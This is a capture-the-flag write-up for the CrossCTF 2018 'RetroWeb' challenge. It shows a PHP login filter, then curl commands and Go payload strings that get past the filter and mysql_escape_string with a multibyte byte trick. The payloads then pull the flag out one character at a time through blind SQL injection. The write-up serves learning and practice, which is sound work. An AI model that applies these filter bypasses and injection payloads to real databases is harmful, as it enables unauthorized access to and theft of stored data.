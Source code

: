 
# CrossCTF Finals 2018: RetroWeb (web)

> Not so easy SQL injection at all.
> 
> http://ctf.pwn.sg:8180

## Challenge

It says it on the tin. Not so easy SQL injection. Dig straight in to the code:

```
if (preg_match('/\s/', $username) or 
	preg_match('/[\/\\\\]/', $username) or 
	preg_match('/(and|or|null|not|union|select|from|where|group|order|having|limit|into|file|case|like)/i', $username) or 
	preg_match('/(--|\/\*|=|>|<)/', $username)) 
	exit('die hax0r!');
$username = mysql_escape_string($username);
$sql = "SELECT username FROM users WHERE username like '$username';";
$result = $conn->query($sql);
```

So this thing does SQL keyword filtering and `mysql_escape_string`. Seems impossible? It's not, ask Google. Some clicks brought me to [this site's example 9](https://pentesterlab.com/exercises/web_for_pentester_II/course) with a description of how to bypass mysql_escape_string. A nice hint in that example also tells you the use of this exploit: for playing CTFs! 

So let's first try bypassing `mysql_escape_string`: 

```
curl -v -X POST http://ctf.pwn.sg:8180/\?search -d username="$(echo -e "SELECT")"
> die hax0r!
curl -v -X POST http://ctf.pwn.sg:8180/\?search -d username="$(echo -e "\xbf'NOPE")"
> Nothing returned. (this means an SQL error occurred)
curl -v -X POST http://ctf.pwn.sg:8180/\?search -d username="$(echo -e "\xbf'#")"
> Does not exist.
```

Yes! So the quote escaping is valid! We can now add additional statements behind our quote. Next step is to bypass SQL keyword filtering. 

A site that provided us with background on [bypassing SQL statement filtering](https://websec.wordpress.com/2010/03/19/exploiting-hard-filtered-sql-injections/) gave us a lot of information and basics on how to write an SQL statement that bypasses the filter. Combined with the MySQL documentation, and lots of trial and error, we found out the following: 

1. You can wrap things in brackets to not need to use spaces. `OR(1)=(1)`
2. Use `&&` and `||` instead of `AND` and `OR`
3. Instead of using `UNION`, do a comparison and use the returned result to check
4. Instead of using `=`, you can use `IN`
5. Instead of strings, you can use hex characters
6. You can compare the substring of the flag by using `substr`

The guide on bypassing tells us that with all the keywords the filter blocked, we have to resort to blind SQL injection. It's where you compare a column character by character to determine if that character is contained in the column. In this case, we want to brute force every character of the flag out, given 1 bit (Exists or Does not exist) of information. 

Firstly, we need a way to check for the first character. Let's start with a simple statement. 

```
admin' OR 'C' in substr(flag,1,1)
```

Let's remove the `AND` and spaces:

```
admin'||('C')in(substr(flag,1,1))
```

We also need to remove the quotes and ignore everything else:

```
admin'||(0x43)in(substr(flag,1,1))#
```

Test it out:

```
curl -v -X POST http://ctf.pwn.sg:8180/\?search -d username="$(echo -e "admin\xbf'||((0x43)in(substr(flag,1,1)))#")"
```

Yay, we get `Exists`! The flag starts with 'C'

To extract the next character, you'd simply increase the length of the substring and the length of the hex string you're testing against, like so:

```
payload := fmt.Sprintf("username=%%BF'||(0x%x)IN(substr(flag,1,%d))#", str, len(str))
```

So, we looped through all possible characters one by one until we got the first, then the next, then the next. The flag `CROSSCTF{WHY` was slowly forming but then we realised that it was in all caps! The `IN` comparison is case-insensetive! 

Simple fix, that took us a while:

```
payload := fmt.Sprintf("username=%%BF'||(hex(0x%x))IN(hex(substr(flag,1,%d)))#", str, len(str))
```

[Complete code here](sql.go)

**It looks beautiful!**

<script src="https://asciinema.org/a/xsraeQYCb9Xya1WXB34uQYTCg.js" id="asciicast-xsraeQYCb9Xya1WXB34uQYTCg" async></script>
